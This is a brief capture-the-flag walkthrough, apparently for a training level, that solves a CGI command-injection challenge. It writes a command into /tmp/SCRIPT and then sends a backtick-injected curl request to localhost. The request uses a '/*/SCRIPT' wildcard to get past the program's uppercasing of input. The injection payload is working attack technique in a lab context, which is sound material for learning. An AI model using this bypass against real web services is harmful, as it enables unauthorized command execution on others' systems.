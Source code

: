# CGI Command‐Injection
## walk-through
- Passing script containing a command to the CGI program in order to get executed to receive the flag.

- By using the command `echo 'getflag > /tmp/flag' > /tmp/SCRIPT` as a parameter for the CGI script. Making the variable uppercase to match the program's pattern that does the same thing.

- Executing the command `curl localhost:4646/?x='`/*/SCRIPT`'`.

- Since '/tmp/SCRIPT' is translated to '/TMP/SCRIPT' by the CGI, Using the bash wildcard such as '/*/script' to find any occurences of the matching pattern. 